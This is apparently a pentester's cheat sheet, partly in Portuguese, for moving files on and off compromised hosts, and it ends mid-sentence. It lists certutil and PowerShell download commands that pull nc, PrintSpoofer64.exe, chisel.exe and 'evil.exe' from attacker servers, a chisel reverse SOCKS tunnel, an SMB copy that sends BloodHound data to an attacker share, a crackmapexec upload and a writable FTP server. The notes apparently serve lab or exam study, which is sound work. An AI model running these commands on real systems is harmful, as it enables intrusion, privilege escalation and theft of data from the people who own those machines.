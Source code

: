     certutil -urlcache -split -f "http://192.168.0.253:8000/nc.cmd" nc.hex
    
    certutil -urlcache -split -f "http://192.168.49.120:8000/PrintSpoofer64.exe" ps64.exe
    certutil -urlcache -split -f "http://192.168.49.120:8000/chisel.exe" chisel.exe
    .]chisel.exe client 13.37.13.37:3477 R:5000:socks
### powershell

    powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')
    
    powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'C:/temp/new-exploit.exe')

    powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"
    

### Bash

    wget -r --no-parent http://10.10.14.2/folder  
    wget http://10.10.14.2/folder/file.pdf 

## SMB

    cp \\192.168.0.253\share\vulns.csv vulns.csv
    
    copy \\192.168.119.181\smb\PrintSpoofer64.exe ps.exe

 OBS: não esquecer de colcoar a flag "smb2support" no comando
 
     impacket-smbserver -smb2support share .



    cp 20220915120636_BloodHound.zip \\test: 192.168.49.120\smb\20220915120636_BloodHound.zip

# Uploading

## crackmapexec

    #~ crackmapexec smb 172.16.251.152 -u user -p pass --put-file /tmp/whoami.txt \\Windows\\Temp\\whoami.txt


## FTP

Aopção mais fácil é por meio do python:

    python -m pyftpdlib --port=21 --write
    #ou
    python -m pyftpdlib --directory=FTP --port=2121 --write

    anonymous
    anonymous

Existe a possibilidade de fazer upload de arquivos com Windows por meio do FTP também da seguinte forma:
